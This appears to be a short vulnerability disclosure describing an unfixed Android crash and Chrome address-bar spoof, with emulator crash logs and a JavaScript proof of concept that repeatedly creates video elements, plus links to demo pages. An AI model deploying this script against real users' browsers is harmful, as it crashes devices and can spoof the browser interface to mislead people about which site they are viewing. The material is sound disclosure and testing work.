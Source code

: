 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting) failed  

I have also had issue where the address bar or a different website in the case of a webview get shown instead of the video element.
```js
<script> onload = () => { createVideo();createVideo();createVideo();createVideo();createVideo(); } function createVideo() { let v = null; setInterval(() => { if (v) document.body.removeChild(v); v = document.createElement('video'); v.width="1000"; v.src = 'https://bugs.chromium.org/p/chromium/issues/attachment?aid=509705&signed_aid=QB-NucJqv2HA_Noz5yih-w==&inline=1'; document.body.appendChild(v); }, 2000); } </script>
```
Demos: [Doge PoC](https://ndev.tk/doge/) and [Unreliable Chrome UI spoof](https://ndev.tk/video.html)
